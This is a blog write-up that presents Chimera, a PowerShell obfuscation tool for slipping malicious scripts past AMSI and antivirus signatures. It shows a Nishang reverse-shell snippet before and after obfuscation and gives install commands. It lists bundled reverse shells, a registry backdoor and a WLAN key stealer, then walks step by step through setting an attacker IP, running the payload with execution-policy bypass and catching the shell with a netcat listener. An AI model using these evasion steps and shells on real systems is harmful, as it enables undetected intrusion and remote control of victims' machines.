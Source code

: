 ```yaml
---
layout: post
title: "Bypass VirusTotal & AMSI Detection Signatures with Chimera"
categories: [publication,write-up]
modified: 2020-09-01
---
```


[Chimera](https://github.com/tokyoneon/Chimera) is a PowerShell obfuscation script designed to bypass Microsoft's AMSI as well as commercial antivirus solutions. It digests malicious PowerShell scripts known to trigger antivirus software and uses simple string substitution and variable concatenation to evade common detection signatures.

![](img/0x10/0x10-03.gif)

Below is a snippet of Nishang's [Invoke-PowerShellTcp.ps1](https://github.com/tokyoneon/Chimera/blob/master/shells/Invoke-PowerShellTcp.ps1), found at [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). In the below PowerShell terminal, the attacker is downloading Nishang's script ("shell.ps1") which will invoke a connection to a remote server. When attempting to execute PowerShell scripts in this way, AMSI will use signature-based detection to identify malicious activity. VirusTotal reports [25 detections](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection) of the PS1 script and AMSI prevents the attack.

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

#Send back current username and computername
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

#Show an interactive PowerShell prompt
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
```

|VirusTotal Detection|AMSI Detection|
|:-:|:-:|
|![](img/0x10/0x10-04.png)|![](img/0x10/0x10-01.png)|


And here's the same snippet, after Chimera. An arbitrary message is printed in the terminal as a connection is established to the attacker's server. VirusTotal reports [0 detections](https://www.virustotal.com/gui/file/74a47198fefa10a8ebb88a8b130259e56a5a9fc4302089ac73009742ba5c98dc/detection) of the obfuscated version and AMSI has no issues executing the script.
```powershell
  # Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```

|VirusTotal Detection|AMSI Detection|
|:-:|:-:|
|![](img/0x10/0x10-05.png)|![](img/0x10/0x10-02.png)|

Chimera does several things to obfuscate the source. The [transformer function](https://github.com/tokyoneon/Chimera/blob/master/chimera.sh#L403) will separate strings into multiple pieces and reconstruct them as new variables.

For example, it will take a string like `... New-Object System.Net.Sockets.TCPClient ...` and convert it to:

```powershell
$a = "Syste"
$b = "m.Net.Soc"
$c = "kets.TCP"
$d = "Client"

... New-Object $a$b$c$d ...
```

The function separates commonly flagged data types and strings into several chunks. It defines the chunks and concatenates them at the top of the script. A higher `--level` will result in smaller chunks and more variables.

```powershell
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"
$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"
$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"
$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"
$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"
$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"
$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"
$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"
$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```


Review the [README](https://github.com/tokyoneon/Chimera), and [USAGE guide](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md) on GitHub for an in-depth look at how Chimera is used. 
```bash
sudo apt-get update; sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git #depends
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera #clone the repo
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/ #permissions
sudo chmod +x chimera.sh; ./chimera.sh --help #print help menu
```


In the [shells/](https://github.com/tokyoneon/Chimera/tree/master/shells) directory are several Nishang scripts and a few generic ones. All have been tested and are working. However, there's no telling how untested scripts will reproduce with Chimera. It's recommended to use only the included shells.
```
/opt/chimera$ ls -laR shells/

shells/:
total 60
-rwxrwx--- 1 user user 1727 Aug 29 22:02 generic1.ps1
-rwxrwx--- 1 user user 1433 Aug 29 22:02 generic2.ps1
-rwxrwx--- 1 user user  734 Aug 29 22:02 generic3.ps1
-rwxrwx--- 1 user user 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1
-rwxrwx--- 1 user user  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1
-rwxrwx--- 1 user user 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1
-rwxrwx--- 1 user user  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1
-rwxrwx--- 1 user user 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1
drwxr-xr-x 2 user user 4096 Aug 30 18:53 misc
-rwxrwx--- 1 user user  616 Aug 29 22:02 powershell_reverse_shell.ps1

shells/misc:
total 36
-rwxrwx--- 1 user user 1757 Aug 12 19:53 Add-RegBackdoor.ps1
-rwxrwx--- 1 user user 3648 Aug 12 19:53 Get-Information.ps1
-rwxrwx--- 1 user user  672 Aug 12 19:53 Get-WLAN-Keys.ps1
-rwxrwx--- 1 user user 4430 Aug 28 23:31 Invoke-PortScan.ps1
-rwxrwx--- 1 user user 6762 Aug 29 00:27 Invoke-PoshRatHttp.ps1
```

Before using the scripts, change the hardcoded IP addresses (`192.168.56.101`) to your Kali address.
```
/opt/chimera$ sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

The default port with all of the scripts is 4444. Use `sed` again to change them if needed.
```
/opt/chimera$ sed -i 's/4444/<YOUR-DESIRED-PORT>/g' shells/*.ps1
```

Use the following command to obfuscate one of the available scripts with Chimera.
```
/opt/chimera$ ./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -o /tmp/chimera.ps1 -g -v -t -j -i -c -h -s -b -e

 _____________________________________________________

  ░░░░░░ ░░   ░░ ░░ ░░░    ░░░ ░░░░░░░ ░░░░░░   ░░░░░
 ▒▒      ▒▒   ▒▒ ▒▒ ▒▒▒▒  ▒▒▒▒ ▒▒      ▒▒   ▒▒ ▒▒   ▒▒
 ▓▓      ▓▓▓▓▓▓▓ ▓▓ ▓▓ ▓▓▓▓ ▓▓ ▓▓▓▓▓   ▓▓▓▓▓▓  ▓▓▓▓▓▓▓
 ██      ██   ██ ██ ██  ██  ██ ██      ██   ██ ██   ██
  ██████ ██   ██ ██ ██      ██ ███████ ██   ██ ██   ██
 _____________________________________________________

 ░ by @tokyoneon_
```


In a new terminal, start a Netcat listener to receive incoming connections. Be sure to use `-v` as some of the scripts don't produce a shell prompt when a new connection is established. Move the `/tmp/chimera.ps1` file to a local Windows 10 machine. Then, open a PowerShell terminal and execute the file with the following command.
```powershell
PS> powershell.exe -ep bypass C:\path\to\chimera.ps1
```

Back in Kali, the `nc` terminal will produce the following output — with no complaints from AMSI.
```
~$ nc -v -l -p 4444

listening on [any] 4444 ...
192.168.56.105: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 49725
Windows PowerShell running as user  on
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\target>
```

---

{{site.wht_credit}}







